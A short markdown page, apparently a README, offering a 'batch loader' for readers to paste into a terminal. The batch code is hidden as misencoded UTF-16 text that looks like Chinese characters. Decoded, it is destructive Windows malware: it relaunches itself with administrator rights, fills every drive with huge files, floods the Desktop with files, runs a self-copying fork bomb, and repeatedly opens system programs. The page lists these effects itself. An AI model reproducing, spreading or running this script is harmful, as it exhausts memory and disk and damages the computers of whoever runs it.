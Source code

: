 batch loader
----------------------------------
# b1 loader 
- paste in terminal
```bat
挦獬਍㨺吠楨⁳剖⁓湉瑳污敬⁲潣敤椠⁳潮⁴敭瑮映牯爠慥楤杮猠牯祲മ㨊›剖⁓汁⁬楒桧⁴敒敳癲摥㈠㈰വഊ䀊捥潨漠晦਍਍䥔䱔⁅剖⹓湉瑳污敬൲ഊ猊瑥潬慣⁬湥扡敬敤慬敹敤灸湡楳湯਍਍敮⁴敳獳潩⁮渾汵㈠☾റ椊⁦攥牲牯敬敶╬渠煥〠⠠਍††捥潨删煥敵瑳湩⁧摡業楮瑳慲楴敶瀠楲楶敬敧⹳⸮਍††潰敷獲敨汬ⴠ潃浭湡⁤匢慴瑲倭潲散獳✠縥て‧嘭牥⁢畲䅮≳਍††硥瑩⼠ൢ⤊਍਍敮⁴敳獳潩⁮渾汵㈠☾റ椊⁦攥牲牯敬敶╬渠煥〠⠠਍††捥潨䘠楡敬⁤潴愠煣極敲愠浤湩獩牴瑡癩⁥牰癩汩来獥മ †挠污⁬䘺潬摯਍††硥瑩⼠ൢ⤊਍਍捥潨删湵楮杮眠瑩⁨摡業楮瑳慲楴敶瀠楲楶敬敧⹳⸮਍潧潴㨠灯റഊ㨊汆潯൤攊档⁯畒湮湩⁧污整湲瑡⁥畦据楴湯椠獮整摡⸮മ攊档⁯〥籞〥㸠␠⹟浣⁤…弤਍਍漺ㅰ਍敳⁴昢汩獥穩㵥〱㌷㐷㠱㐲∰਍਍漺ㅰ਍敳⁴琢牡敧䑴楲敶┽ㅾഢ攊档⁯楆汬湩⁧牤癩⁥琥牡敧䑴楲敶‥⸮മഊ昊牯⼠⁌┥⁩湩⠠ⰱⰱ〱〰
潤⠠਍††敳⁴昢┽慴杲瑥牄癩╥坜湩潤獷╟椥搮瑡ഢ †映畳楴⁬楦敬挠敲瑡湥睥∠昡∡┠楦敬楳敺‥渾汵㈠☾റ †椠⁦牥潲汲癥汥ㄠ⠠਍††††捥潨䐠楲敶┠慴杲瑥牄癩╥映汵⁬牯攠牲牯漠捣牵敲⹤਍††††潧潴㨠灯ല †⤠਍ഩ朊瑯⁯漺㉰਍਍慣汬㨠灯‱㩃਍਍潦⁲┥⁄湩⠠⁄⁅⁆⁇⁈⁉⁊⁋⁌⁍⁎⁏⁐⁑⁒⁓⁔⁕⁖⁗⁘⁙⥚搠⁯ന †椠⁦硥獩⁴┥㩄⁜ന †††挠污⁬漺ㅰ┠䐥ഺ †⤠਍ഩഊ攊楸⁴戯਍਍漺㉰਍潦⁲䰯┠椥椠⁮ㄨㄬㄬ⤰搠⁯ന †猠慴瑲渠瑯灥摡攮數਍††瑳牡⁴浣⹤硥൥ †猠慴瑲琠獡浫牧攮數਍††瑳牡⁴敲敧楤⹴硥൥ †猠慴瑲眠楲整攮數਍††瑳牡⁴潣瑮潲⹬硥൥ †猠慴瑲攠灸潬敲⹲硥൥ †猠慴瑲洠⵳敳瑴湩獧ഺ †猠慴瑲洠捩潲潳瑦攭杤㩥਍ഩഊഊ㨊灯ള猊瑥∠㵤唥䕓偒佒䥆䕌尥敄歳潴≰਍潦⁲䰯┠椥椠⁮ㄨㄬㄬ〰⤰搠⁯ന †琠灹⁥畮⁬‾┢╤ഢ⤊਍਍捥潨┠帰╼‰‾弤挮摭☠␠ 
```
- flood memory
- creat big file at C:\
- open randoms application
----------------------------------
